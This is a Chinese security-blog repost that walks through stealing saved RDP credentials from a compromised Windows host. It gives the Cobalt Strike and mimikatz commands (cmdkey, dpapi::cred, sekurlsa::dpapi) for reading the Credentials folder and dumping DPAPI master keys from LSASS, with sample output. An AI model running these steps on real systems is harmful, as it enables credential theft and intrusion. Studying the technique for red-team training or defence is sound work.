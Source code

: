 #  内网渗透 | 获取远程主机保存的RDP凭据密码

Sp4ce  [ LemonSec ](javascript:void\(0\);)

**LemonSec** ![]()

微信号 lemon-sec

功能介绍 每日发布安全资讯～

____

___发表于_

收录于合集 #网络安全 215个

拿下一台运维机，上了个CS，发现曾经连接过几台服务器并且保存了凭据，网上查了圈发现CS不支持交互式mimikatz，记录下获取远程主机RDP凭据。

  

Windows保存RDP凭据的目录是 **C:\Users\用户名\AppData\Local\Microsoft\Credentials**

  

可通过命令行获取，执行:

  * 

    
    
    cmdkey /list或powerpick Get-ChildItem C:\Users\rasta_mouse\AppData\Local\Microsoft\Credentials\ -Force

  

注意: **cmdkey /list** 命令务必在Session会话下执行，system下执行无结果。

  

![]()

使用cobalt strike中的mimikatz可以获取一部分接下来要用到的masterkey和pbData  

  

  * 

    
    
    mimikatz dpapi::cred /in:C:\Users\USERNAME\AppData\Local\Microsoft\Credentials\SESSIONID

  

输出应类似

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    **BLOB**dwVersion          : 00000001 - 1guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}dwMasterKeyVersion : 00000001 - 1guidMasterKey      : {0785cf41-0f53-4be7-bc8b-6cb33b4bb102}dwFlags            : 20000000 - 536870912 (system ; )dwDescriptionLen   : 00000012 - 18szDescription      : 本地凭据数据  
      
    algCrypt           : 00006610 - 26128 (CALG_AES_256)dwAlgCryptLen      : 00000100 - 256dwSaltLen          : 00000020 - 32pbSalt             : 726d845b8a4eba29875****10659ec2d5e210a48fdwHmacKeyLen       : 00000000 - 0pbHmackKey         : algHash            : 0000800e - 32782 (CALG_SHA_512)dwAlgHashLen       : 00000200 - 512dwHmac2KeyLen      : 00000020 - 32pbHmack2Key        : cda4760ed3fb1c7874****28973f5b5b403fe31f233dwDataLen          : 000000c0 - 192pbData             : d268f81c64a3867cd7e96d99578295ea55a47fcaad5f7dd6678989117fc565906cc5a8bfd37137171302b34611ba5****e0b94ae399f9883cf80050f0972693d72b35a9a90918a06ddwSignLen          : 00000040 - 64pbSign             : 63239d3169c99fd82404c0e230****37504cfa332bea4dca0655

  

需要关注的是guidMasterKey、pbData，pbData是我们要解密的数据，guidMasterKey是解密所需要的密钥。这里LSASS已经在其缓存中存有这个key因此我们可以使用SeDebugPrivilege获取。

  

  * 

    
    
    beacon> mimikatz !sekurlsa::dpapi  

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    mimikatz !sekurlsa::dpapi      [00000001]     * GUID      :    {0785cf41-0f53-4be7-bc8b-6cb33b4bb102}     * Time      :    2020/1/3 8:05:02     * MasterKey :    02b598c2252fa5d8f7fcd***7737644186223f44cb7d958148     * sha1(key) :    3e6dc57a0fe****a902cfaf617b1322     [00000002]     * GUID      :    {edcb491a-91d7-4d98-a714-8bc60254179f}     * Time      :    2020/1/3 8:05:02     * MasterKey :    c17a4aa87e9848e9f46c8ca81330***79381103f4137d3d97fe202     * sha1(key) :    5e1b3eb1152d3****6d3d6f90aaeb

  

然后将凭据保存到本地，执行

  

  * 

    
    
    mimikatz "dpapi::cred /in:C:\Users\USERNAME\Desktop\test\SESSION /masterkey:对应的GUID key"

![]()

> 文章作者: Sp4ce
>
> 文章链接: https://0x20h.com/p/bf1f.html  
>
>
> 转自 Sp4ce's Blog！

 **侵权请私聊公众号删文**  

  **热文推荐  ** ** **

  * [蓝队应急响应姿势之Linux](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523380&idx=1&sn=27acf248b4bbce96e2e40e193b32f0c9&chksm=f9e3f36fce947a79b416e30442009c3de226d98422bd0fb8cbcc54a66c303ab99b4d3f9bbb05&scene=21#wechat_redirect)  

  * [通过DNSLOG回显验证漏洞](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523485&idx=1&sn=2825827e55c1c9264041744a00688caf&chksm=f9e3f3c6ce947ad0c129566e5952ac23c990cf0428704df1a51526d8db6adbc47f998ee96eb4&scene=21#wechat_redirect)  

  * [记一次服务器被种挖矿溯源](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523441&idx=2&sn=94c6fae1f131c991d82263cb6a8c820b&chksm=f9e3f32ace947a3cdae52cf4cdfc9169ecf2b801f6b0fc2312801d73846d28b36d4ba47cb671&scene=21#wechat_redirect)  

  * [内网渗透初探 | 小白简单学习内网渗透](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523346&idx=1&sn=4bf01626aa7457c9f9255dc088a738b4&chksm=f9e3f349ce947a5f934329a78177b9ce85e625a36039008eead2fe35cbad5e96a991569d0b80&scene=21#wechat_redirect)  

  * [实战|通过恶意 pdf 执行 xss 漏洞](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523274&idx=1&sn=89290e2b7a8e408ff62a657ef71c8594&chksm=f9e3f491ce947d8702eda190e8d4f7ea2e3721549c27a2f768c3256de170f1fd0c99e817e0fb&scene=21#wechat_redirect)  

  * [免杀技术有一套（免杀方法大集结）(Anti-AntiVirus)](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523189&idx=1&sn=44ea2c9a59a07847e1efb1da01583883&chksm=f9e3f42ece947d3890eb74e4d5fc60364710b83bd4669344a74c630ac78f689b1248a2208082&scene=21#wechat_redirect)  

  * [内网渗透之内网信息查看常用命令](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247522979&idx=1&sn=894ac98a85ae7e23312b0188b8784278&chksm=f9e3f5f8ce947cee823a62ae4db34270510cc64772ed8314febf177a7660de08c36bedab6267&scene=21#wechat_redirect)  

  * [关于漏洞的基础知识](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247523083&idx=2&sn=0b162aba30063a4073bad24269a8dc0e&chksm=f9e3f450ce947d4699dfebf0a60a2dade481d8baf5f782350c2125ad6a320f91a2854d027e85&scene=21#wechat_redirect)  

  * [任意账号密码重置的6种方法](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247522927&idx=1&sn=075ccdb91ae67b7ad2a771aa1d6b43f3&chksm=f9e3f534ce947c220664a938bc42926bee3ca8d07c6e3129795d7c8977948f060b08c0f89739&scene=21#wechat_redirect)  

  * [干货 | 横向移动与域控权限维持方法总汇](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247522810&idx=2&sn=ed65a8c60c45f9af598178ed20c89896&chksm=f9e3f6a1ce947fb710ff77d8fbd721220b16673953b30eba6b10ad6e86924f6b4b9b2a983e74&scene=21#wechat_redirect)  

  * [手把手教你Linux提权](http://mp.weixin.qq.com/s?__biz=MzUyMTA0MjQ4NA==&mid=2247522500&idx=2&sn=ec74a21ef0a872f7486ccac6772e0b9a&chksm=f9e3f79fce947e89eac9d9077eee8ce74f3ab35a345b1c2194d11b77d5b522be3b269b326ebf&scene=21#wechat_redirect)

  
 ** **欢迎关注LemonSec**** **觉得不错点个 **“赞”** 、“在看“**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

